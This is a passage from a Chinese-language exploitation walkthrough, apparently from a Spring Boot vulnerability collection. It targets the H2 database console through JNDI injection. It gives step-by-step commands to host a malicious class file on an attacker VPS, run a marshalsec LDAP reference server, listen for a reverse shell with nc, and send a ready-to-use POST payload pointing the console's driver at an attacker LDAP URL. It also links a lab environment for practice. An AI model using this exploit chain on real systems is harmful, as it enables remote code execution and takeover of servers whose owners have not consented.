 然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

##### 步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```

#### 漏洞分析

​ [Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)

#### 漏洞环境

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```url
http://127.0.0.1:9096/h2-console
```
